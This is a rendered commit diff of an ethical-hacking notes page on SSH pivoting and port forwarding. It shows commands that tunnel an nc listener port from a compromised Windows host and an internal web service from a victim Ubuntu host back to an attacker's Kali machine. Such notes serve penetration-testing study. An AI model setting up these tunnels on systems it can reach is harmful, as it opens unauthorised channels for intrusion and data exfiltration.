

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/pivoting-tunneling-and-port-forwarding/ssh.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
GITBOOK-228: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/pivoting-tunneling-and-port-forwarding/ssh.md
+++ b/ethical-hacking/pivoting-tunneling-and-port-forwarding/ssh.md
@@ -191,3 +191,13 @@ Like the above command, we can do the same to create a tunnel for a nc listener
 ```powershell
 C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:4444 kali@192.168.45.186
 ```
+
+
+
+### Tunnel Internal Web Service
+
+Like we did above we can portforward an internal web service back to our kali host.
+
+```bash
+victim@ubuntu ssh -N -L local_port:remote_host:remote_port kali@192.168.45.186
+```
````
